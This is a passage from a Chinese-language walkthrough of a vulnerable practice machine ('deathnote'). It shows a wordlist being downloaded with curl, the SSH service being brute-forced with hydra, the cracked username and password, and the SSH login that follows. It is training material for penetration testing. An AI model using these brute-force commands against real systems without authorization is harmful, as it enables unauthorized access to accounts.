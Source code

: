 还有一个字典



#### 下载另一个字典

```
curl http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt >notes.txt
```

![image-20250313174648149](./assets/image-20250313174648149.png)



### 22 端口

 

#### 尝试利用这两个字典爆破22端口的ssh服务

```
hydra -P notes.txt -L user.txt ssh://192.168.6.20  
```

![image-20250313174715304](./assets/image-20250313174715304.png)

成功

```
l
death4me
```



#### 登录ssh

```
ssh l@192.168.6.20
```

![image-20250313174748958](./assets/image-20250313174748958.png)
